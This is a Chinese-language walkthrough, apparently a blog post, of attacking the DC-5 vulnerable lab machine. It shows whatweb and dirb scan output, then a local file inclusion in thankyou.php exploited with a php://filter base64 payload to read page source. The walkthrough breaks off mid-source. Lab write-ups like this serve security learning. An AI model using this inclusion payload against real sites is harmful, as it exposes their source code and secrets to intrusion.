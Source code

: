 ## 扫web应用

```shell
whatweb 192.168.72.158
http://192.168.72.158 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.6.2], IP[192.168.72.158], Title[Welcome], nginx[1.6.2] 
```

## 扫目录

```
dirb http://192.168.72.158  
---- Scanning URL: http://192.168.72.158/ ----
==> DIRECTORY: http://192.168.72.158/css/                                                                           
==> DIRECTORY: http://192.168.72.158/images/                                                                        
+ http://192.168.72.158/index.php (CODE:200|SIZE:4025) 
```

# 手动渗透

基本没什么信息，111端口也只找到dos方面的利用，还有就是发现每留言一次footer的年份会变化一次，但是不知道具体是个什么原理。

实在想不出来看了看其他大佬的思路，居然是包含了footer.php

咋说呢，真是想不到的文件包含利用点，为什么还能通过传参数能改变包含的页面，或者说为什么包含footer.php可以进行更改，在这么个简单的网站里感觉完全没必要留这种后门。但是实际情况也倒是什么都可能发生，不吐槽了，接着渗透。

## 文件包含

![image-20210417135111864](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210417135111864.png)

看看源码

`http://192.168.72.158/thankyou.php?file=php://filter/read=convert.base64-encode/resource=thankyou.php`

```php
<!doctype html>

<html lang="en">
<head>
	<meta charset="utf-8">
	<title>Contact</title>
	<link rel="stylesheet" href="css/styles.css">
</head>

<body>
	<div class="body-wrapper">
		<div class="header-wrapper">
			<header>
				DC-5 is alive!
			</header>
		</div>
		
		<div class="menu-wrapper">
			<menu>
				<ul>
					<a href="index.php"><li>Home</li></a>
					<a href="solutions.php"><li>Solutions</li></a>
					<a href="about-us.php"><li>About Us</li></a>
					<a href="faq.php"><li>FAQ</li></a>
					<a href="contact.php"><li>Contact</li></a>
```